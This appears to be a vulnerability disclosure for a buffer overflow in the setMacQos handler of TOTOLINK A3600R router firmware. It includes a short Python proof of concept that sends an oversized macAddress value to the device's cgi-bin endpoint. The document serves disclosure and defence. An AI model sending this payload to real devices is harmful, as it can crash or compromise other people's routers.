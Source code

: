 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setMacQos` function. The `v8, result` variable receives the `priority, macAddress` parameter from a POST request. However, since the user can control the input of `priority, macAddress`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721011626694](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011626694.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"macAddress":"a"*0x1000, "topicurl":"setMacQos"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721011821157](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721011821157.png)
